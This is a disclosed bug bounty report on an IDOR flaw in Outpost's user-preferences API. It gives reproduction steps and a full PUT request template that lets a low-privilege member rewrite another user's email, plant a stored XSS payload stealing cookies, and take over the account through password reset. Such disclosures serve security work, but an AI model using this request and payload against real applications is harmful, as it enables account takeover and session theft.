 # IDOR on update user preferences

## Report Details
- **Report ID**: 854290
- **URL**: https://hackerone.com/reports/854290
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-04-20T14:37:10.118Z
- **Disclosed**: 2020-05-13T19:52:07.215Z

## Reporter
- **Username**: macasun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: palo_alto_software

## Vulnerability Information
## Summary:
Team member with role USER can change data of any user in the team, or steal his cookies, or steal the account of victim via forget password function.

## Steps To Reproduce:

  1. Login in as user1 (the user with role `admin`) and invite user2 (set his role to `user`).
  2. Login in as user2, open Mail tab and select user1 from `Conversation assignment` dropdown (see F796149 attachment).
  3. Open network tools in the browser devTools or open local proxy and copy `UserUuid` (`da4f313f-e21e-4b5f-b2da-42d9864716f6` in my case) of the user1 from the following request: https://api.outpost.co/api/v1/conversation/assigned?assignedToUserUuid=da4f313f-e21e-4b5f-b2da-42d9864716f6.
  4. Use template `request1` to create http request. Change `{user1-uuid}` to user1 Uuid, `{user2-cookie}` to user2 cookie. In the request body: `{attacker-email}` to email controlled by user2, `signature` to the following: `<p style=\"margin:0;\">User Signature2<img src=x onerror=alert(document.cookie) ></p>`. Send request.
  5. Login in as user1. Open https://app.outpost.co/settings/preferences, alert with user1 cookie will appear (see F796148 attachment).
  6. Open https://app.outpost.co/sign-in/help and paste `{attacker-email}`. Open email client, click the link to restore password, enter a new password. Now you can login in using user1 email address and password entered on the previos step.

## Supporting Material/References:

- request1 template:

```
PUT /api/v1/user/preferences/{user1-uuid} HTTP/2.0
Host: api.outpost.co
Content-Length: 434
Sec-Fetch-Dest: empty
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.106 Safari/537.36
Dnt: 1
Content-Type: application/json
Accept: */*
Origin: https://app.outpost.co
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Referer: https://app.outpost.co/
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU, ru;q=0.9, en-US;q=0.8, en;q=0.7
Cookie: auth={user2-cookie}

{
  "firstName": "user1-changed-by-user2",
  "lastName": "null",
  "email": "{attacker-email}",
  "role": "USER",
  "defaultMailboxUuid": "",
  "mailboxUuids": [
    "e4a63ae3-bb10-46f8-be28-a2660a2344ec"
  ],
  "signature": "{signature}",
  "timezone": "Europe/Moscow",
  "defaultSendAndResolve": false,
  "selectFirstConversation": true
}
```

## Impact

An attacker can change data of any user in the team, or steal his cookies, or steal account of victim via forget password function.

## Attachments
- s2.jpg
- s1.jpg
